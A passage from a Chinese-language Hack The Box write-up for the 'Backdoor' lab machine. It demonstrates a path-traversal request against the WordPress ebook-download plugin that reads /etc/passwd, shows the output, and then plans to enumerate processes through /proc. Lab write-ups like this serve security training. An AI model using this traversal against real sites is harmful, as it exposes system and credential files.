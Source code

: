 ![](img/07319af1a4c6ce4bc889a831208941fc.png)

使用 curl 读取远程文件

这很有效，我们来看看 passwd:

```
┌──(root💀kali)-[~/htb/backdoor]
└─# curl [http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd](http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd)root:x:0:0:root:/root:/bin/bash
<SNIP>
user:x:1000:1000:user:/home/user:/bin/bash
```

# 监视进程

这也是可行的，我们只将 root 和 user 视为我们可能感兴趣的帐户。

在之前的 nmap 扫描中，我们看到端口 1337 是开放的。有了读取任意文件的能力，我们可以检查/proc 并查看机器上正在运行什么进程。这个解释了更多关于/proc 伪文件系统如何工作的内容。

我使用了一个简单的循环来递增地检查/处理:

![](img/6e4a4ad2e6d4d24e66f99539231a4de9.png)
